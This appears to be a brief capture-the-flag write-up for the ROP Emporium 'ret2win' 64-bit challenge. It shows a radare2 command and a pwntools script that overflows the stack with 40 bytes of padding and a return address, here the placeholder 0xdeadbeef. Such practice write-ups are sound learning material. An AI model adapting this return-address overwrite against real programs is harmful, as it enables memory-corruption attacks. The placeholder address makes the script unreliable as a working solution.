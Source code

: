 # CTF-2020

> ## [ROP EMPORIUM](#rop)
>
> - [Ret2Win 64 bit](#ret2win)





## ROP EMPORIUM<a name="rop"></a>

***

### RET2WIN64<a name="ret2win"></a>

> For this first challenge I needed to issue the command `$ r2 ret2win`
>
>> This is just an example of nested block quotes 

![First image](https://github.com/jpowellroot/CTF-2020/blob/master/2-1.png?raw=true)

##### payload

~~~ python
#/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0xdeadbeef)

payload = padding + ret2win

io = process(elf.path)
io.sendline(payload)
io.recvall()
~~~
